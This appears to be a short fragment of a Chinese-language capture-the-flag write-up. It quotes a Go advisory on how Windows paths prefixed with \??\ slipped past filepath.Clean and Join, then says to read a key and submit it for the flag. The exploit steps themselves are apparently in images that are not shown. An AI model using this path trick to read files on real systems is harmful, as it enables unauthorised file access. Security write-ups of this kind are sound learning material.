

```
ilepath 包无法将以 \??\ 为前缀的路径识别为特殊路径。在 Windows 上，以 \??\ 开头的路径是根本地设备路径，相当于以 \\?\ 开头的路径。以 \??\ 为前缀的路径可用于访问系统上的任意位置。例如，路径 \??\c:\x 相当于更常见的路径 c:\x。修复之前，Clean 可以将根路径（例如 \a\..\??\b）转换为根本地设备路径 \??\b。现在，Clean 会将其转换为 .\??\b。同样，Join(\, ??, b) 可以将看似无害的路径元素序列转换为根本地设备路径 \??\b。现在，Join 会将其转换为 \.\??\b。此外，修复后，IsAbs 现在可以正确地将以 \??\ 开头的路径报告为绝对路径，VolumeName 可以正确地将 \??\ 前缀报告为卷名。更新：Go 1.20.11 和 Go 1.21.4 无意中更改了以 \? 开头的 Windows 路径中卷名的定义，导致 filepath.Clean(\?\c:) 返回 \?\c: 而不是 \?\c:\（以及其他影响）。之前的行为已恢复。
```



然后读取key



提交key就能拿到flag了
